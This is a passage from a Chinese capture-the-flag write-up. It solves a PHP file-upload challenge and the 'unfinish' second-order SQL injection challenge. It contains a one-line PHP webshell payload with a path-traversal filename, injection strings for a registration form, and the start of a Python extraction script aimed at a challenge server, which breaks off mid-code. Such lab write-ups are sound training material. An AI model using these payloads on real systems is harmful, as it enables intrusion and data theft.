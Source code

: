```php
    }
?>
```

这里有一个文件上传，这里的`backup/`其实是一个假目录，`chdir('uploaded');`这里改了目录，真实上传目录为upload，我们在传入file时，加上一个…/

其中正则过滤了最后一个"."，及最后一个点的后缀，我们可以多写一个点

现在尝试写个木马进去，con是文件内容，file是文件名，使用POST传参

```
con=<?php @eval($_POST['x']);?>&file=../webshell.php/.
```

flag：/var/www/html/flag.php





### unfinish

#### 考点：SQL二次注入

参考：[攻防世界web进阶区unfinish详解](https://blog.csdn.net/hxhxhxhxx/article/details/107900247)

我们扫后台会发现有3个页面，`login.php`、`register.php`、主页面

这里我们需要在注册的页面进行注入，我们可以猜测注册的sql语句可能类似这样

```
insert into tables value('$email','$username','$passwpord');
```

登录成功后语句：

```
select * from tables where email = "$email";
```

我们尝试在注册时用户名处进行闭合，用户名注册时加个单引号注册失败，双引号注册成功，说明可能为单引号闭合。

同时，题目这里注册的时候作了限制，所以联合查询这种方法不能用。

```
email: 123@123.com
username: 1' and '0
password: 123
```

登陆发现，用户名处回显0，说明存在注入，and运算结果为0



这里过滤了很多东西，无法通过正常的方法进行解题，比如我们在用户名处构造`group_concat(1,database()),database','1')#`，页面会报错。

最后参见大佬的wp，**我们用截取的方法，截取处每一位，然后ascii编码**再获取flag

```python
import requests
import re

register_url = 'http://220.249.52.134:48042/register.php'
login_url = 'http://220.249.52.134:48042/login.php'

for i in range(1, 100):
    register_data = {
        'email': '111@123.com{}'.format(i),
        'username': "0' + ascii(substr((select * from flag) from {} for 1)) + '0".format(i),
        'password': 'admin'
    }
    res = requests.post(url=register_url, data=register_data)

    login_data = {
        'email': '111@123.com{}'.format(i),
```